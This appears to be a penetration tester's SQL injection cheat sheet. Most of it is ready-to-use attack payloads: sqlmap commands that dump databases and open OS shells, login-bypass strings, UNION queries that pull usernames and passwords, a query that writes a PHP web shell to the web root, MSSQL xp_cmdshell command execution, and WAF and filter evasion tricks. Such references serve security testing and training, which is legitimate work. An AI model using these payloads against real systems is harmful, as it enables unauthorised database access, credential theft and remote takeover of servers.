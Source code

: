 # SQL injection

## SQL MAP

### From request

```sh
sqlmap -r REQUEST_FILE --dbs
```

### Basic info

Get database username, name, and hostname

```sh
sqlmap -u TARGET_URL --current-user --current-db --hostname
```

### From URL

Enumerate databases

```sh
sqlmap -u TARGET_URL --dbs
```

List tables for one database

```sh
sqlmap -u TARGET_URL --dbms=MySQL -D DATABASE_NAME --tables
```

Dump table content for one table

```sh
sqlmap -u TARGET_URL --dbms=MySQL -D DATABASE_NAME -T TABLE_NAME --dump

sqlmap -u TARGET_URL --dbs
sqlmap -u TARGET_URL --dbms=MySQL -D DataBaseName --tables
sqlmap -u TARGET_URL --dbms=MySQL -D DataBaseName -T TableName --dump
```

### Execute SQL Query

```sh
sqlmap -u TARGET_URL --dbms=MySQL --sql-query=SQL_QUERY
```

Interactive mode:

```sh
sqlmap -u TARGET_URL --dbms=MySQL --sqlmap-shell
```

### Check for waf

```sh
sqlmap -u URL --identify-waf --random-agent
```

### PWN

```sh
sqlmap -u URL --dbms=MySQL --os-pwn
sqlmap -u URL --dbms=MySQL --os-shell 
```

## Login Bypass

```text
USERNAME:   ' or 1/*  
PASSWORD:   */ =1 --  
```

```text
USERNAME: admin' or 'a'='a  
PASSWORD '#  
```

## Enumeration database

1. Test to found vuln

    ```sql
    1' AND '1'='0
    1' AND '1'='1
    1" AND "1"="0
    1" AND "1"="1
    1 AND 1=0
    1 AND 1=1
    ```

2. Confirm number of columns

    ```sql
    ORDER BY 1 --
    ...
    ORDER BY 4 --
    ```

3. Find which column will display info

    ```sql
    UNION SELECT 1,2,3,4 --
    ```

4. Find database name, user name, and version (must use group_concat for one liner)

    ```sql
    UNION SELECT (SELECT group_concat(database(),0x3a,user(),0x3a,version())),2,3,4 --
    ```

5. Find tables name

    ```sql
    UNION SELECT (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema="DATABASE_NAME" LIMIT 1 OFFSET 0),2,3,4 -

    UNION SELECT (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 0),2,3,4 --
    ```

6. Find columns name

    ```sql  
    UNION SELECT (SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='Table_Name'),2,3,4 --
    ```

7. Dump data from the table

    ```sql  
    UNION SELECT (SELECT group_concat(id,0x3A,username,0x3A, password) from Table_Name)),2,3,4 --
    ```

## Drop webshell

```sql
union all select "<?php echo shell_exec($_REQUEST['cmd']);?>",2,3,4,5,6 into OUTFILE '/var/www/html/shell.php' --
```

### MSSQL Enumeration: Error based

<https://www.exploit-db.com/papers/12975/>

Enumerate column and table name

```sql
http://www.example.com/page.asp?id=1' HAVING 1=1--
Error message: Column 'news.news_id' is invalid			< table_name.column
```

```sql
http://www.example.com/page.asp?id=1' GROUP BY news.news_id HAVING 1=1--
Error message: Column 'news.news_author' is invalid		< table_name.column2
```

```sql
http://www.example.com/page.asp?id=1' GROUP BY news.news_id,news.news_author HAVING 1=1--
Error message: Column 'news.news_detail' is invalid		< table_name.column3
```

Until no error

Enumerate version, db name, users:

```sql
http://www.example.com/page.asp?id=1+and+1=convert(int,@@version)--
http://www.example.com/page.asp?id=1+and+1=convert(int,db_name())--
http://www.example.com/page.asp?id=1+and+1=convert(int,user_name())--       << Is the user running as dbo or sa?

xp_cmdshell << if running as database admin
http://www.example.com/news.asp?id=1; exec master.dbo.xp_cmdshell 'command'
'; exec master.dbo.xp_cmdshell 'command'
```

On MSSQL 2005 you may need to reactivate xp_cmdshell first as it's disabled by default:

```sql
EXEC sp_configure 'show advanced options', 1;--
RECONFIGURE;-- 
EXEC sp_configure 'xp_cmdshell', 1;-- 
RECONFIGURE;--  
```

On MSSQL 2000:

```sql
EXEC sp_addextendedproc 'xp_anyname', 'xp_log70.dll';--
```

## SQL filter bypass

Beyond SQLi: Obfuscate and Bypass - <https://www.exploit-db.com/papers/17934/>

```sql
AND, OR operators
AND = &&
OR = ||
```

Comment operator << Mysql

```sql
--
#  
/**/  
```

```sql
Regular expression
It is common that PHPIDS will block operators such as =, ', (), 
table_name = 'users' X
table_name between 'a' and 'z' X
table_name between char(97) and char(122) X

Convert strings to HEX format.
table_name between 0x61 and 0x7a
table_name like 0x7573657273

Change case
union > UniOn
select > SeLect

Inline comments << Mysql 5.0
/*! <sql operator> */
```

### > PHP/5.2.4 unicode SQL Smuggling

> Payload

```sql
%c0'^0--%20
%ff'<>1#
```

<https://owasp.org/www-pdf-archive/OWASP_IL_2007_SQL_Smuggling.pdf>
